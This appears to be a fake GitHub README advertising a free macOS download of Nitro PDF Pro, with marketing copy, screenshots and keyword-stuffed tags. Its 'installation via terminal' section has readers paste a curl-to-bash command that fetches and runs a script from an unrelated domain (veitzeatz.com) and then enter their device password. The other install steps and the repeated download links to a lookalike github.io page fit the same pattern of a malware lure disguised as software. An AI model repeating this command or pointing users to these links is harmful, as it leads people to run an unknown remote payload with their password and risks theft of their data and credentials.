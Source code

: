# 🧾 Nitro PDF Pro — Comprehensive PDF Editing Software for macOS

Nitro PDF Pro is a powerful and easy-to-use PDF editor designed for macOS users. It offers advanced features for creating, editing, converting, and signing PDF documents, making it a complete solution for personal and business use on Mac.

## ✅ Download Nitro PDF Pro for macOS  
[![Download Nitro PDF Pro](https://img.shields.io/badge/Download-Nitro%20PDF%20Pro-blueviolet)](https://nitro-pdf-pro-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)





## ✅ Download Nitro PDF Pro for macOS  
[![Download Nitro PDF Pro](https://img.shields.io/badge/Download-Nitro%20PDF%20Pro-blueviolet)](https://nitro-pdf-pro-mac-download.github.io/.github)

---

## 📦 What is Nitro PDF Pro?

Nitro PDF Pro delivers a robust set of tools to manipulate PDF files seamlessly on macOS. From editing text and images to converting PDFs to other formats, Nitro simplifies your document workflows while providing professional-grade features.

---

## ✨ Features

- 📝 Edit text, images, and pages within PDFs  
- 📄 Convert PDFs to Word, Excel, and PowerPoint  
- ✍️ Create, fill, and sign PDF forms  
- 🖥️ Optimized for macOS with Retina display support  
- 🔒 Secure PDFs with encryption and password protection  
- 🔄 Collaborate with comments, annotations, and review tools  
- 📤 Export and share PDFs via email or cloud services  

---

## 💡 Why Use Nitro PDF Pro?

- ✅ All-in-one PDF editor tailored for macOS users  
- 🚀 Enhances productivity with fast and accurate PDF tools  
- 🛡️ Keeps your documents secure with advanced protection features  
- 📱 Access and manage PDFs seamlessly across Apple devices  
- 💼 Ideal for businesses, professionals, and individuals alike  

---

[![Download Nitro PDF Pro](https://img.shields.io/badge/Download-Nitro%20PDF%20Pro-blueviolet)](https://nitro-pdf-pro-mac-download.github.io/.github)

---

## 🖼️ Preview

![Nitro PDF Pro Screenshot 1](https://www.gonitro.com/hs-fs/hubfs/Why%20Nitro%20is%20the%20Best%20All-in-One%20PDF%20Editor%20for%20Mac%20.webp?width=900&height=675&name=Why%20Nitro%20is%20the%20Best%20All-in-One%20PDF%20Editor%20for%20Mac%20.webp)  
![Nitro PDF Pro Screenshot 2](https://www.gonitro.com/hs-fs/hubfs/Website/_Screens/Screenshots-Workspace-Home%20Page.png?width=1200&height=1200&name=Screenshots-Workspace-Home%20Page.png)

---

## 📌 Tags

nitro pdf, nitro pdf pro, nitro pro download, nitro pdf editor, nitro pdf download, nitro pro 10,  
nitro pdf free, nitro pdf free download, nitro pro 9, nitro pdf pro download, nitro pdf price, nitro pro 8,  
nitro pdf to word, nitro pro 10 download, nitro pdf cost, nitro pdf online, nitro pro free download,  
nitro pdf pro 14, nitro online, nitro pdf full, nitro pdf reader free download, nitro pdf 10, nitropdf free,  
nitro pro10, nitro pdf pro free download, portable nitro pdf, nitro pdf pro 10, nitro pdf professional free download,  
nitro pdf pro mac, nitro pdf pro mac download
